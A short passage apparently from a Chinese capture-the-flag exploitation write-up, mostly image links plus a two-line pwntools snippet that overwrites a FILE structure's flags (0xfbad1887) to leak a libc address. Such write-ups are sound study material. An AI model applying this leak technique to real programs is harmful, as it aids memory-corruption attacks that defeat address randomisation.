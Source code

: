 [![](assets/1700186924-dac56d90bc4c545145e80014a4032be4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162937-47364942-845a-1.png)

‍

[![](assets/1700186924-f0721482545021b8a6907b0e071edd20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162942-4a97e276-845a-1.png)

‍

```bash
payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak
```

io leak 泄露 libc 地址

‍

[![](assets/1700186924-f018e9e4744dd172e23a579c088460d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162953-50d6d69c-845a-1.png)
